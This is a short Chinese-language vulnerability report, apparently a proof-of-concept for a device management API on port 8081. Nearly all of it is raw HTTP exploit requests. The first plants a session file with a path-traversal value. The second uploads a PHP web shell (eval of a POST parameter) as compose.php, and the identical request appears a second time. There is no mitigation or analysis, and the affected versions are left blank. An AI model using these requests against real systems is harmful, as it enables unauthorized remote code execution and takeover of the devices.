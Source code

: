 **漏洞等级：**高

**漏洞类型：****0day/1day/nday**

**影响版本：**

**漏洞详情：**

出现漏洞的端口为 8081



```
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=1d52ba2a11ad8a915eddab1a0e85acd9
Host: 

--1d52ba2a11ad8a915eddab1a0e85acd9
Content-Disposition: form-data; name="file"; filename="sess_82c13f359d0dd8f51c29d658a9c8ac71"

lang|s:52:"../../../../../../../../../../../../../../../../tmp/";

--1d52ba2a11ad8a915eddab1a0e85acd9--
```







```
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```







```
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```
